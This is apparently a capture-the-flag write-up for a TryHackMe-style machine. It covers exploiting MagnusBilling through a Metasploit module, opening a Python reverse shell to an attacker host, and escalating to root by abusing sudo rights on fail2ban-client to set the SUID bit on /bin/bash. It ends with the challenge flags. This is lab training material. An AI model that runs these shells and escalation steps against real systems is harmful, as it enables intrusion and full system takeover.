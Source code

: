 ```yaml
---
sticker: emoji//1f4b3
---
```


# PORT SCAN
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | SSH     |
| 80   | HTTP    |



# RECONNAISSANCE
---


![[Pasted image 20250612121156.png]]

Once we go to the web application, we can check this is working with something called `MagnusBilling`, we know this because a little moment before going into the web application, this loads in:

![[Pasted image 20250612121421.png]]

**MagnusBilling** is an open-source VoIP billing and call accounting platform designed for service providers, call shops, and enterprises. It provides comprehensive solutions for call routing, rate management, user provisioning, and real-time billing. Built on a LAMP/LEMP stack, it supports integration with major VoIP protocols (SIP, IAX) and hardware, featuring web-based management, fraud detection, and multi-tenant capabilities.

If we search info related to this, we can find this exploit:

![[Pasted image 20250612121504.png]]


![[Pasted image 20250612121513.png]]


Based on that, let's search a module on `metasploit`:

![[Pasted image 20250612121650.png]]

Same exploit as the one above, let's proceed with exploitation.


# EXPLOITATION
---

![[Pasted image 20250612121837.png]]

Now, set options and run the exploit:


![[Pasted image 20250612121935.png]]


We got our meterpreter shell, I will switch to a netcat shell for a better experience:

```
meterpreter > shell

python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("VPN_IP",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);subprocess.call(["/bin/bash"])'
```


![[Pasted image 20250612122241.png]]

Let's begin privilege escalation.


# PRIVILEGE ESCALATION
---

First step is to stabilize our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![[Pasted image 20250612122406.png]]

We got a shell as `asterisk`, let's use linpeas and check what can we do to escalate our privileges:


![[Pasted image 20250612122904.png]]

We can run `fail2ban-client` binary, in a previous machine, specifically `biteme`, a similar privilege escalation was done with this binary but in that case we could reset the service of `fail2ban`, let's check how to exploit it in this case:

![[Pasted image 20250612123256.png]]

![[Pasted image 20250612123306.png]]

That would work but we don't have write permissions over the `iptables.conf` file:

![[Pasted image 20250612123407.png]]

Unfortunately, this is not the path, but, investigating further we can find this article:

Article: https://exploit--notes-hdks-org.translate.goog/exploit/linux/privilege-escalation/sudo/sudo-fail2ban-client-privilege-escalation/?_x_tr_sl=en&_x_tr_tl=es&_x_tr_hl=es&_x_tr_pto=tc

![[Pasted image 20250612123516.png]]

Let's replicate the PoC:

```
# Get jail list
sudo /usr/bin/fail2ban-client status
# Choose one of the jails from the "Jail list" in the output.
sudo /usr/bin/fail2ban-client get <JAIL> actions
# Create a new action with arbitrary name (e.g. "evil")
sudo /usr/bin/fail2ban-client set <JAIL> addaction evil
# Set payload to actionban
sudo /usr/bin/fail2ban-client set <JAIL> action evil actionban "chmod +s /bin/bash"
# Trigger the action
sudo /usr/bin/fail2ban-client set <JAIL> banip 1.2.3.5
# Now we gain a root
/bin/bash -p
```

```
asterisk@ip-10-10-24-201:/tmp$ sudo /usr/bin/fail2ban-client status
Status
|- Number of jail:	8
`- Jail list:	ast-cli-attck, ast-hgc-200, asterisk-iptables, asterisk-manager, ip-blacklist, mbilling_ddos, mbilling_login, sshd

sudo /usr/bin/fail2ban-client get mbilling_ddos actions
The jail mbilling_ddos has the following actions:
iptables-allports

sudo /usr/bin/fail2ban-client set mbilling_ddos addaction evil
sudo /usr/bin/fail2ban-client set mbilling_ddos action evil actionban "chmod +s /bin/bash"
sudo /usr/bin/fail2ban-client set mbilling_ddos banip 1.2.3.5
```

![[Pasted image 20250612123848.png]]

As seen, we get a root shell following the PoC, let's get both flags:

```
bash-5.2# cat /home/magnus/user.txt
THM{4a6831d5f124b25eefb1e92e0f0da4ca}

bash-5.2# cat /root/root.txt
THM{33ad5b530e71a172648f424ec23fae60}
```

![[Pasted image 20250612124033.png]]

